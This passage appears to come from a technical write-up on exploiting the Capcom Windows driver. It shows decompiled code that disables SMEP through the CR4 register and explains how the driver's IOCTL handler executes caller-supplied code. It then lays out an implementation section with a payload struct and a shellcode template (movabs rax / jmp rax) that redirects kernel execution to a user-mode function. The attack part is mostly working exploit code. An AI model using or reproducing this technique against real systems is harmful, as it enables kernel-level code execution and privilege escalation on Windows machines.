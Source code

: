 ```cpp
unsigned __int64 __fastcall sub_10788(unsigned __int64 *a1)
{
    unsigned __int64 v1; // rax@1
    unsigned __int64 result; // rax@1

    _disable();
    v1 = __readcr4();
    *a1 = v1;
    result = v1 & 0xFFFFFFFFFFEFFFFFui64;
    __writecr4(result);
    return result;
}
```

And what do you know, ```sub_10788``` disables SMEP, allowing our function in usermode to be called in the context of the kernel.  
At this point it should be pretty obvious that ```sub_107A0```, the second unknown function called, sets SMEP back to its original state, so I will leave out the disassembly of that function.

## Implementation
The implementation at this point should be pretty straightforward now that we know how the driver interacts with data passed to its IOCTL handler. I will be outlining the few caveats that are required for a usermode function to be called in the context of the kernel.

### Constructing the payload

Earlier we saw that the first 8 bytes of the input buffer must be equal to the address of the usermode function. Let's create a ```struct``` that defines our payload:

```cpp
struct capcom_payload
{
    void* ptr_to_code;
    uint8_t code[sizeof(code_template)];
};
```
We are going to want ```ptr_to_code``` to point to the usermode function, defined by ```code```, an array of bytes when constructing the payload.  

The driver will directly start executing the code defined by our ```code``` byte array, and we know that **SMEP** is disabled at this point. Let's force the kernel to ``jmp`` to a usermode function that we can define.

```cpp
static const uint32_t user_function_ptr_offset = 0x2;
static uint8_t code_template[] =
{
    0x48, 0xB8, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // movabs rax, user_function_ptr
    0xFF, 0xE0                                                  // jmp rax
};
```

This simple shellcode template will be the code that the driver executes for us. The first instruction will be ```movabs rax, user_function_ptr``` which moves the immediate 8 bytes into ```rax```. Next, it will execute ```jmp rax```, which jumps to the address stored in ```rax```, which will be our user-defined function pointer.  
